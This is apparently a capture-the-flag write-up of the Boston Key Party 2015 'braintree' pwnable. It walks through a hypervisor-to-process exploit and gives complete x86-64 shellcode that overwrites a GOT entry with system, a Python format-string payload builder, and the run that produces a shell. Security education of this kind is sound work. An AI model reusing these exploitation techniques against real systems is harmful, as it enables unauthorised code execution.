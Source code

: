 ```yaml
---
title: 'braintree (tz) write-up'
author:
  - Brian Pak (Cai)
layout: post
excerpt_separator: <!--more-->
categories:
  - Pwn
ctf: Boston Key Party CTF
year: 2015
---
```

This is a write-up for **braintree** challenge, which is the last part of 3-chained pwnable challenge from [Boston Key Party CTF](https://ctftime.org/event/163) last weekend.  _You can also read this content from the [origial post](https://www.bpak.org/blog/2015/03/bkpctf-2015-braintree-tz-write-up/)_.
<!--more-->

The binaries were packaged into a [tar ball](https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz).

> The MBTA wrote a cool system. It's pretty bad though, sometimes the commands work, sometimes they don't...
> Exploit it. (tz flag) 54.165.91.92 8899

The goal is to get "tz" flag by exploiting the kernel space process.

_If you haven't read the previous write-up for quincy-adams, I strongly recommend you to read before continuing with this one as we will assume knowledge gained from it._

As it was mentioned previously, we will be using the same primitive: **hypercall #92**.

Therefore, we have an arbitrary-write-anywhere primitive. So, the question is "what can we overwrite in **tz** that will get us an arbitrary code execution?"

We started looking at each of the hypercall handlers in **tz**.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/kspace_3.png" lightbox="braintree" %}

Then, we stumbled upon hypercall #85.

This function seemed like some sort of cleanup (we called it **delete_op** in our shellcode) function for an object used in **tz**. (As I said previously, we didn't do much of reversing on **tz** as we did for **uspace** and **kspace**)

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/tz_0.png" lightbox="braintree" %}

It seems like the first argument (v3) is a word that represents id of some sort, but the important thing is that we can control its value. v2 is an offset to the tz data structure, and the value at **tz_space + v2 (where v2 is 0)** is 0.

Since NX is enabled on **tz**, we decided to overwrite the GOT entry to execute **system**. Since the addresses are randomized, we first need to leak an address to calculate the address of system. We are going to abuse the hypercall #92 to do 3 things:

  * Leak out libc address, so we can calculate the address of system.
  * Overwrite **free** (.got.plt in tz) with &system.
  * Overwrite contents in **v4 + 8** (aka, tz_space + 8) with a pointer to our command buffer.

However, doing all of these comes with a price. The size limit (256 bytes) starts to become an issue here. We can either put another stager in the middle to allow us more space, or optimize our payload such that it fits under 256 bytes! We chose to do latter :p

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

; yay we are in kernel!!!
; optimizing for size...
mov ebp, 0x8

; leak out &getpwnam
mov eax, 0x402380       ; do_encrypt
mov edi, 0x602290       ; src (getpwnam .got.plt in tz)
mov rsi, [rel dst]      ; dst (kernel_space + 128)
mov edx, ebp            ; size
call rax

call sleep

; update the address (to be &system) and
; xor the address back with the key
mov rcx, [rel dst]
mov rax, [rcx]
xor rax, [rel xor_key]
sub rax, 0x79340        ; &getpwnam - &system (this may be different depending on libc)
xor rax, [rel xor_key]
mov [rcx], rax

; overwrite free GOT
mov eax, 0x402380       ; do_encrypt
mov rdi, [rel dst]      ; src (kernel_space + 128)
mov esi, 0x602230       ; dst (free .got.plt in tz)
mov edx, ebp            ; size
call rax

call sleep

mov rax, [rel command]  ; encrypt our command pointer
xor rax, [rel xor_key]
push rax

; overwrite [fake_obj + 8] with cmd pointer
mov eax, 0x402380       ; do_encrypt
mov rdi, rsp
mov rsi, [rel fake]
mov edx, ebp            ; size
call rax

call sleep

; setting command to 'sh'
mov rcx, [rel command]
mov dword [rcx], 0x6873

; hypercall to trigger free
; sem_lock
mov ebp, [0x60338C]     ; semaphore
mov edi, ebp
xor esi, esi
mov eax, 0x4015D0
call rax

xor rcx, rcx
mov rax, [0x603360]     ; kernel_space
mov dword [rax], 85     ; delete_op hypercall
mov [rax + 8], rcx      ; 0
lea rdx, [rax + 48]     ; rax + 48 points to args
mov [rax + 16], rdx

mov word [rax + 48], 0  ; id

; sem_unlock
mov edi, ebp
xor esi, esi
mov eax, 0x401600
call rax

call sleep

sleep:
; sleep(1)
mov eax, 0x400D00
xor edi, edi
inc edi
jmp rax

dst:
dq 0x900000080         ; scratch pad in kernel_space
fake:
dq 0x100000008         ; tz_space + 8
xor_key:
dq 0x7473656c72616863
command:
dq 0x900001000         ; we will put our command here
{% endhighlight %}
<br />

At first, we were over ~10 bytes, but once we have "optimized" a little bit, we finally got our payload to be 254 bytes!

Note that we are not using the same shell.asm as before (our new payload is now called shell.asm). However, we can continue to use the same stage1.asm and the python script from **kspace** exploit. For convenience sake, it is also attached here.

<p class="filename">pwn_tz.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

f.write('create lol\n'.ljust(0x400, '#'))
f.write(open('shell.bin').read().ljust(0x100, '\0'))

pop_pop_ret = 0x40110F
stage1 = open('stage1.bin').read()

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + stage1 + '\n').ljust(0x400, '#'))
{% endhighlight %}
<br />

<p class="filename">Pwn!</p>
{% highlight bash %}
$ nasm shell.asm -f bin -o shell.bin
$ ls -l shell.bin
-rw-rw-r-- 1 user user 254 Mar 4 21:58 shell.bin
$ nasm stage1.asm -f bin -o stage1.bin
$ python pwn_tz.py
$ (cat ../tz/payload; cat -) | sudo ./tz
bksh> bksh> bksh>
whoami
tz
{% endhighlight %}
<br />

We have abused the hypercall #92 (encrypt) to exploit both kspace and tz, but there may be another way to exploit kspace without going through the hypervisor.

Well, that's it for the 3-parts pwnable challenge write-up =)

Thank you for reading, and happy hacking!

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]